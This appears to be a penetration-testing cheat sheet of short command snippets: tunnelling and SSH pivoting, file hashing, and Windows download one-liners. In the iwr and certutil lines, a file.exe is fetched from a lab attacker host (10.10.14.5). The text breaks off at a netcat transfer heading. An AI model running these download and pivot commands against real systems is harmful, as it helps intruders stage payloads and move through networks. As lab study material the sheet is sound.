 ## Add route for Ligolo-ng tunnel

```bash
ip route add 192.168.1.0/24 dev ligolo
```

## Create SSH local port forward

```bash
ssh -L 8080:internal_host:80 user@$IP
```

## Create SSH dynamic SOCKS proxy

```bash
ssh -D 9050 user@$IP
```

## Verify file hash on Linux

```bash
md5sum file.exe
sha256sum file.exe
```

## Verify file hash on Windows

```cmd
certutil -hashfile file.exe MD5
certutil -hashfile file.exe SHA256
```

## Check file type on Linux

```bash
file file.exe
```

## Quick PowerShell download with IWR

```powershell
powershell -c "iwr http://10.10.14.5/file.exe -o file.exe"
```

## Quick certutil download on Windows

```cmd
certutil -urlcache -f http://10.10.14.5/file.exe file.exe
```

## Transfer file using base64 over netcat
